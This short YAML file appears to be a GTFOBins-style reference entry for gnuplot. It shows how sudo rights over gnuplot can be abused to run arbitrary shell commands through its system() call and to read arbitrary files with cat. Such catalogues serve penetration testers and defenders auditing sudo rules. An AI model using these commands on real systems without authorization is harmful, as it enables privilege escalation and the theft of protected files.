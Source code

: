 ```yaml
---
functions:
  sudo:
    - code: |
        COMMAND=id
        sudo gnuplot -e 'set print "-" ; print system("'$COMMAND'")'
  file-read:
    - code: |
        LFILE=file_to_read
        sudo gnuplot -e 'set print "-" ; print system("cat '$LFILE'")'
---
```

